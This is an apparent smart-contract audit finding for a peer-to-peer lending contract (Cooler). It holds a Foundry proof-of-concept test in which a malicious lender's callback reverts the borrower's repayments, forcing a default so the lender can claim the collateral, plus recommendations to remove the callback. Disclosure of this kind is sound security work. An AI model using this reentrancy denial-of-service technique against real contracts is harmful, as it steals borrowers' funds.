 ## Impact

- This could lead to broken p2p borrowing-lending functionallity, because using the attack the functionallity happens to be `trading with benefit for the lender, who collects his tokens after some time`.
- Lenders steal funds of the borrowers.

## PoC

Here is a test, which shows that the transaction always revert, and at the end the lender could withdraw.

```
    function testRevert_repay_DoS(uint256 amount_, uint256 repayAmount_) public {
        // test inputs
        repayAmount_ = bound(repayAmount_, 1e10, MAX_DEBT);  // min > 0 to have some decollateralization
        amount_ = bound(amount_, repayAmount_, MAX_DEBT);
        bool directRepay = true;
        bool callbackRepay = true;
        // test setup
        cooler = _initCooler();
        (uint256 reqID, ) = _requestLoan(amount_);

        // Create a malicious lender that reenters on defaults
        MockMaliciousLender attacker = new MockMaliciousLender(address(coolerFactory));
        deal(address(debt), address(attacker), amount_);

        vm.startPrank(address(attacker));
        // aprove debt so that it can be transferred from the cooler
        debt.approve(address(cooler), amount_);
        uint256 loanID = cooler.clearRequest(reqID, directRepay, callbackRepay);
        vm.stopPrank();

        // block.timestamp < loan expiry
        vm.warp(block.timestamp + DURATION / 2);

        vm.startPrank(owner);
        debt.approve(address(cooler), repayAmount_);
        // The owner (borrower) will now try to repay some part of his loan, but the transaction will always revert, since it
        // always executes code, which is written from the attacker. In this case 'revert', which will lead to loan being defaulted
        vm.expectRevert("You just got hacked.");
        cooler.repayLoan(loanID, repayAmount_);
        vm.stopPrank();

        vm.warp(block.timestamp + DURATION / 2 + 1);
        cooler.claimDefaulted(loanID);
        // The contract can have function to sent the assets to a EOA of the attacker and so on. Or if the hacker
        // wants to be really bad, he could implement this transfer inside "onDefaulted" function of the CoolerCallback.

    }
```

## Recomendations

- Think of a way to not execute external code inside important logic.
- One solution is to remove this callback functionallity and use internal utility functions inside the contracts (Cleaninghouse.sol) to do the same job (calculations.)
